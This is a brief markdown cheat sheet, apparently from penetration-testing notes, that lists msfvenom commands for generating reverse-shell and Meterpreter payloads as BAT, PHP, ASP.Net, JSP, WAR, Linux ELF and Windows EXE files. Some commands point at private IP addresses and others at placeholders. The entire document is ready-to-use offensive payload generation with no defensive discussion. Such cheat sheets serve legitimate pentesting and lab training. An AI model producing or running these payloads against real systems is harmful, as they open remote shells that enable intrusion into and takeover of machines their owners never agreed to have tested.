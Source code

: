 ## msfvenom

#### Reverse shell - BAT
```bash 
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.119.221  LPORT=5000 > reverse.bat
```

#### Reverse shell - PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f raw > shell.php
```

#### Reverse shell - ASP.Net

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.229 LPORT=443 -f asp > meterpreter.asp
```

#### Reverse shell - JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

#### Reverse shell - WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```


#### Reverse shell - ELF (Linux)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

#### Reverse shell (Windows Exe)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```